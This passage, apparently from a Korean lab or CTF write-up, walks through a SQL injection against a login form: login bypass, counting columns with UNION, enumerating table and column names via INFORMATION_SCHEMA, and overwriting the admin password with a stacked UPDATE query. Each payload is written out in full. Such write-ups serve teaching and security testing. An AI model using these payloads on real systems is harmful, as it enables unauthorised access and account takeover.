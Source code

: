 ![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.002.jpeg)

주석 처리는 허용되지 않았고, 문자열 조작을 통해 로그인에 성공할 수 있었다. 

2. Blind SQL Injection 
- 로그인에 성공하면 True이다. 
- UNION을 이용해 컬럼의 개수를 알아낸다. ID: admin, PW: [' OR '1' UNION SELECT 1, 2.. 로그인 성공할 때까지 늘리기 # '1] 
- [' OR '1' UNION SELECT 1,2,3 # '1]로 로그인을 성공했으므로 컬럼 수는 3개이다. 이를 통해 UNION 명 령어가 사용가능하다는 것을 알 수 있다. 
- Brute Force(사전 테이블에 user, account 입력하여 시간 줄임)  공격을 통해 유저 정보가 담긴 테이블 명을 알아낸다.  [' OR '1' UNION SELECT 1,2,COLUMN\_NAME from INFORMATION\_SCHEMA.COLUMNS where TABLE\_NAME='user' # '1] 가 True이므로 테이블명이 user라는 것을 알 수 있다. 
- 패스워드의 컬럼명을 password, pass, passwd, pw으로 유추하여 찾아내었다. [' OR '1' UNION SELECT 1,2,COLUMN\_NAME  from  INFORMATION\_SCHEMA.COLUMNS  where  TABLE\_NAME='user'  and COLUMN\_NAME='pw' # '1]  
- 같은  방법으로  ID의  컬럼명도  찾아내었다.  ['  OR  '1'  UNION  SELECT  1,2,COLUMN\_NAME  from INFORMATION\_SCHEMA.COLUMNS where TABLE\_NAME='user' and COLUMN\_NAME='id' # '1] 
- Admin password 변경 [' OR '1'; update user set pw='11111111' where id='admin'; # '1] 
- ID: admin, PW: 11111111로 접속,  성공 ![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.003.jpeg)
